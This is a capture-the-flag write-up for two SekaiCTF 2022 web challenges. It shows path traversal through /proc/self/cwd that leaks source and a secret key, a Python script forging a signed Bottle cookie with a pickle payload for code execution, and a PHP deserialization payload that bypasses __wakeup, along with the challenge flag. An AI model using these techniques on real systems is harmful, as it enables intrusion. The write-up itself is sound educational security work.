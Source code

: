 # Sekai CTF - 2022 
## Bottle Poem
#### about :
- Type: web 
- Level: easy
- Points : 100

<center><img src="../images/bottle-poem.png"></center>

as we request the url the html code gives away an LFI vulnerabilty : 
```html
<!DOCTYPE html>
<html>
<head>
	<meta charset="utf-8">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<title>Sekai’s boooootttttttlllllllleeeee</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="text-white bg-zinc-800 container px-4 mx-auto text-center h-screen box-border flex justify-center item-center flex-col">
	<h1 class="my-8 text-4xl font-bold text-center">Read some poems in my Bottle</h1>
	<ul>
		<li><a class="text-blue-300 underline hover:no-underline" href="/show?id=spring.txt">Spring</a></li>
		<li><a class="text-blue-300 underline hover:no-underline" href="/show?id=Auguries_of_Innocence.txt">Auguries_of_Innocence</a></li>
		<li><a class="text-blue-300 underline hover:no-underline" href="/show?id=The_tiger.txt">The_tiger</a></li>
	</ul>
</body>
</html>
```
As we try to reach the application source code , it seems we can't find ait , and the weird part was when i request `../app.py` it responds with `No!!!!` , something was suspicious.

Instead of requestin ../app.py  , i tried the `/proc/self/cwd/app.py` and it worked : 

```python
from bottle import route, run, template, request, response, error
from config.secret import sekai
import os
import re


@route("/")
def home():
    return template("index")
@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile
@error(404)
def error404(error):
    return template("error")
@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"
if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=8080)
```

Everythin seems to be good so far, we can retrieve the secret from `/proc/self/cwd/config/secret.py` 

> sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"

Further search on bottle module, i found that the `cookie_decode` unpickles data , which in this case , having the secret key can lead to RCE using the pickle library , you can find this feature [here](https://bottlepy.org/docs/dev/tutorial.html)

<center><img src="../images/pickle-bottlepy.png"></center>

the final payload looks like this : 

```python
import base64,hashlib,pickle,hmac
import os
def tob(s, enc='utf8'):
    if isinstance(s, str):
        return s.encode(enc)
    return b'' if s is None else bytes(s)


def cookie_encode(data, key):
    ''' Encode and sign a pickle-able object. Return a (byte) string '''
    msg = base64.b64encode(pickle.dumps(data, 0))
    sig = base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())
    return tob('!') + sig + tob('?') + msg

class test():
    def __reduce__(self):
        return (eval,('__import__("os").popen("/flag")',))


obj = test()
a = cookie_encode(obj,'Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu')
print(a)
```

## Sekai Game Start
#### about :
- Type: web 
- Level: medium
- Points : 260

<center><img src="../images/sekai-game.png"></center>

getting to the website we found the source code of the application: 
```php
<?php
include('./flag.php');
class Sekai_Game{
    public $start = True;
    public function __destruct(){
        if($this->start === True){
            echo "Sekai Game Start Here is your flag ".getenv('FLAG');
        }
    }
    public function __wakeup(){
        $this->start=False;
    }
}
if(isset($_GET['sekai_game.run'])){
    unserialize($_GET['sekai_game.run']);
}else{
    highlight_file(__FILE__);
}

?>
```
seems to be Insecure deserialization vulnerabilty the payload is `C:10:"Sekai_Game":0:{}` by bypasing the `__wakeup` magic function , you can find it [here](https://bugs.php.net/bug.php?id=81151).  the only issue is how to submit the payload , php by default converts `.` in all parametre names to `_` , as the version is earlier than 8  , there is a way around this , using `[` php ignores all `.` and only converts `[` to `_` the parametre can then be `sekai[game.run` , the final payload is : 
`sekai[game.run=C:10:"Sekai_Game":0:{}`

**flag :** SEKAI{W3lcome_T0_Our_universe}